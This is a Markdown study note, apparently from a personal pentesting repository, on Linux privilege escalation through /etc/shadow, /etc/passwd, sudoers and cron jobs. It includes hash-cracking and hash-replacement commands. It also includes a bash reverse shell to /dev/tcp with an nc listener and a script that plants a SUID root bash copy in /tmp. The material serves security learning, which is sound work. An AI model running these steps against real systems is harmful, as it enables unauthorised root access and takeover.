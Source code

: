 # Privileges Escalation - Linux

## /etc/shadow file
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.

  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.

## /etc/passwd file
- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing `x`.

## /etc/sudoers file
- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.

  <img src="../imgs/sudoers.png" alt="sudoersImg" />

## /etc/crontab file
- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  <img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:
  
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">
   
  - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to gain a root shell in this way:
  ```
  #!/bin/bash
  cp /bin/bash /tmp/rootbash
  chmod +xs /tmp/rootbash
  ```
  - This script will copy the default `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
  


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
